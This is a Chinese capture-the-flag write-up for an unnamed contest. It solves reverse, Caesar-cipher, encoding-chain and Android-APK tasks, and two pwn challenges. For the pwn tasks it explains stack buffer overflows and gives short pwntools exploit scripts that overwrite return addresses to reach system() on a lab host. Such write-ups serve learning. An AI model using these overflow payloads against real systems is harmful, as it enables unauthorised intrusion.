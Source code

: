 ```yaml
---
title: 记一次不知名比赛的WP
---
```

# 记一次不知名比赛的WP

# Reverse

## Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](https://img.crzliang.cn/img/image-20230620090120146.png)

# Crypto

## easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](https://img.crzliang.cn/img/image-20230620094549028.png)

# Misc

## medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](https://img.crzliang.cn/img/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](https://img.crzliang.cn/img/image-20230620094222386.png)

![image-20230620094242228](https://img.crzliang.cn/img/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](https://img.crzliang.cn/img/image-20230620094305264.png)

## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](https://img.crzliang.cn/img/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](https://img.crzliang.cn/img/image-20230620121956543.png)

# Pwn

## easily_pwn_1

程序分析：64位程序，之开启了NX保护

![image-20230620140607482](https://img.crzliang.cn/img/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](https://img.crzliang.cn/img/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](https://img.crzliang.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](https://img.crzliang.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了32位保护

![image-20230620141634557](https://img.crzliang.cn/img/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](https://img.crzliang.cn/img/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](https://img.crzliang.cn/img/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](https://img.crzliang.cn/img/image-20230620142144275.png)

![image-20230620142020421](https://img.crzliang.cn/img/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
